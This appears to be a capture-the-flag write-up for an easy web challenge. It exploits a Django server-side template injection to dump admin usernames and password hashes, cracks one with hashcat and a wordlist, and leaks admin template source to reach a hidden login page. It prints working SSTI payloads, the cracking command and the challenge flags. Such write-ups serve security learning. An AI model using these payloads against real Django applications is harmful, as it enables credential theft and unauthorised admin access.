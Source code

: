 ## TTchart

category: web
difficulty : easy
author : winter


In this challenge you are provided with an input field that reflects what we enter on the page.
When i saw this i asuumed it was an injection, so you have to find injection attacks that can be triggered when user input is reflacted on the page  ie
1. xss
2. ssti


There we no obvious  filters the site was vulnerable to xss , but this was not useful to solve this challenge.

Classic ssti payload ``` {{7*7}} ``` returns error 500

![500](./images/500.jpeg)

Then i found this  >>> [here](https://lifars.com/wp-content/uploads/2021/06/Django-Templates-Server-Side-Template-Injection-v1.0.pdf)

![django](./images/django.png)

I was clear it was django ssti. Payload

```bash

{% load log %}{% get_admin_log 10 as log %}{% for e in log %}
{{e.user.get_username}} : {{e.user.password}}{% endfor %}


```

![passowrd](./images/hash.png)


flag :  BIC{winter,bicmaster}

-----------------------------------

This leaks admin username and passowrd hash. Using hashcat , this hash is pbk2df for flask

```bash
hashcat -m 10000 hash.txt /home/ubuntu/wordlists/rockyou.txt


password: bicmaster:bichito

```

Ps: i only cracked one hash , i have i3 and 2gb ram :)

flag : BIC{bichito}

--------------------------------------

Now to find the flag we have to login as bicmaster.

There is no obvoius admin login page if you tried directory bruteforcing.

You can leak admin source code of django using the payload below


```bash

{% include 'admin/base.html' %}


```

Looking through the source you will find a href link to admin page 

``` bash
http://3.135.209.41/bvdvfhvsdjgfvusdkgflshgdilfhgodufjgbvfkgfvidlsfgvdifkjhgvidufhvgdifxhvgbd/login/?next=/bvdvfhvsdjgfvusdkgflshgdilfhgodufjgbvfkgfvidlsfgvdifkjhgvidufhvgdifxhvgbd/

```

Login to find the flag 

flag :  

![flag](./images/flag.png)


----------------------------------------

This was a good challenge , glad i got first blood.


![goodbye](./images/download.jpeg)
